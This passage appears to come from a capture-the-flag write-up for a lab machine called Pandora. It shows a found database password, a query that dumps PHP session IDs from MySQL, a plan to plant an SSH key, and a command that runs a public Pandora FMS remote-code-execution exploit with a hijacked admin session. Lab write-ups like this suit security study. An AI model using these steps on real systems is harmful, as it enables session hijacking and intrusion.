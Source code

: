```
pandora : PandoraFMSSecurePass2021
```

To get fully an interactive shell I can either use another exploit for Remote Code Execution or the easier way is to make `.ssh/authorized_keys` file with contents of our public key inside users `matt` home directory.  
#### Pandora FMS - Remote Code Execution

Using this [exploit](https://github.com/UNICORDev/exploit-CVE-2020-5844/tree/main) I can get reverse shell on system. For exploit to work I need either valid admin credentials or valid `PHPSESSID` cookie. To obtain these, I tried to enumerate `mysql` database. 

```bash
mysql -u pandora -h 127.0.0.1 -p
```

![mysql.png](/assets/img/Pandora/mysql.png)

```sql
select * from tsessions_php;
```

![phpsessionsFInal.png](/assets/img/Pandora/phpsessionsFInal.png)

Data column revealed that this `PHPSESSID` could belong to user `admin`. 

```bash
python3 50961.py -t 127.0.0.1 80 -p ds7r171lk4r89f3eis11qutbdm
```
